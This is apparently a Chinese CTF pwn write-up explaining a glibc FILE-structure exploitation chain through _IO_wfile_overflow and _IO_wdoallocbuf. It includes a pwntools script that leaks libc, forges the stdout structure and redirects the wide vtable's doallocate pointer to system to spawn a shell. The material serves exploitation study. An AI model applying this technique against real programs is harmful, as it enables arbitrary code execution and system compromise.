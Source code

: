 # exp
## 题解一

利用链：

`puts -> __xsputn -> 伪造为 _IO_wfile_overflow`

`IO_wfile_overflow -> _IO_wdoallocbuf -> _IO_WDOALLOCATE -> *(fp->_wide_data->_wide_vtable + 0x68)(fp)`

![](https://cdn.nlark.com/yuque/0/2024/png/35041275/1729432259713-104a2bc2-50fa-45b5-af6f-52831dbec401.png)

利用 _IO_wfile_overflow 函数控制程序执行流：

+ `_flags` = `~(2 | 0x8 | 0x800)`
+ `vtable` = `_IO_wfile_jumps/_IO_wfile_jumps_mmap/_IO_wfile_jumps_maybe_mmap` 的地址（加减偏移）
+ `_wide_data` = 可控堆地址`A`（即满足 `*(fp+0xa0)=A`）
+ `_wide_data->_IO_write_base` = `0`（即满足 `*(A+0x18)=0`）
+ `_wide_data->_IO_buf_base` = `0`（即满足 `*(A+0x30)=0`）
+ `_wide_data->_wide_vtable` = 可控堆地址`B`（即满足 `*(A+0xe0)=B`）
+ `_wide_data->_wide_vtable->doallocate` = 地址`C`，用于劫持 `RIP`（即满足 `*(B+0x68)=C`）

```python
from pwn import *
context(arch='amd64', os='linux', log_level='debug')
context.terminal = ['tmux', 'splitw', '-h']

p = process('./pwn')
# p = remote('202.199.6.66', 37306)
elf = ELF('./pwn')
libc = ELF('./libc.so.6')

# leak libc base
p.recvuntil('0x')
put_addr = int(p.recvline(), 16)
libc.address = put_addr - libc.symbols['puts']
success("puts addr: " + hex(put_addr))
success("libc base: " + hex(libc.address))

# 覆盖 vtable 的指针指向我们控制的内存，然后在其中布置函数指针
stdout_addr = libc.symbols['_IO_2_1_stdout_']
success("stdout addr: " + hex(stdout_addr))

p.send(p64(stdout_addr))

A = stdout_addr
B = stdout_addr

# 利用链
# puts -> __xsputn -> 伪造为 _IO_wfile_overflow
# _IO_wfile_overflow -> _IO_wdoallocbuf -> _IO_WDOALLOCATE -> *(fp->_wide_data->_wide_vtable + 0x68)(fp)
fake = FileStructure(0)
fake.flags = b"\xf5\xf7;\sh;\x00"                       # _flags = ~(2 | 0x8 | 0x800) (由于要布置 \sh;，进行了一点修改)
fake._lock = libc.symbols['_IO_stdfile_1_lock']         # 绕过检测
fake._wide_data = A                                     # 满足 *(fp+0xa0)=A
fake.chain = libc.symbols['system']                     # 满足 *(B+0x68)=C
fake.vtable = libc.symbols['_IO_wfile_jumps'] - 0x20    # vtable = _IO_wfile_jumps/_IO_wfile_jumps_mmap/_IO_wfile_jumps_maybe_mmap 的地址（加减偏移）

# 自动会用 0x00 填充，所以这里不用管
# ● _wide_data->_IO_write_base = 0（即满足 *(A+0x18)=0）
# ● _wide_data->_IO_buf_base = 0（即满足 *(A+0x30)=0）
```